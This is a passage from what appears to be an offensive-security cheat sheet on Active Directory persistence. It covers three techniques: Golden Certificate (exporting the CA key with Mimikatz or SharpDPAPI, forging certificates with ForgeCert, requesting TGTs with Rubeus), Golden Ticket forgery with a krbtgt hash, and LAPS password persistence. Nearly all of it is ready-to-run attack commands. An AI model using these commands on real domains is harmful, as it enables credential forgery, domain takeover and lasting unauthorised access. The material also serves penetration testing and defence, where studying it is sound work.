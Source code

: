 ### Golden Certificate

> Require elevated privileges in the Active Directory, or on the ADCS machine

* Export CA as p12 file: `certsrv.msc` > `Right Click` > `Back up CA...`
* Alternative 1: Using Mimikatz you can extract the certificate as PFX/DER

    ```ps1
    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export
    ```

* Alternative 2: Using SharpDPAPI, then convert the certificate: `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
* [ForgeCert](https://github.com/GhostPack/ForgeCert) - Forge a certificate for any active domain user using the CA certificate

    ```ps1
    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName harry@lab.local --NewCertPath harry.pfx --NewCertPassword Password123
    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@lab.local --NewCertPath dc.pfx --NewCertPassword Password123
    ```

* Finally you can request a TGT using the Certificate

    ```ps1
    Rubeus.exe asktgt /user:ron /certificate:harry.pfx /password:Password123
    ```

### Golden Ticket

> Forge a Golden ticket using Mimikatz

```ps1
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

### LAPS Persistence

To prevent a machine to update its LAPS password, it is possible to set the update date in the futur.

```ps1
Set-DomainObject -Identity <target_machine> -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

## References
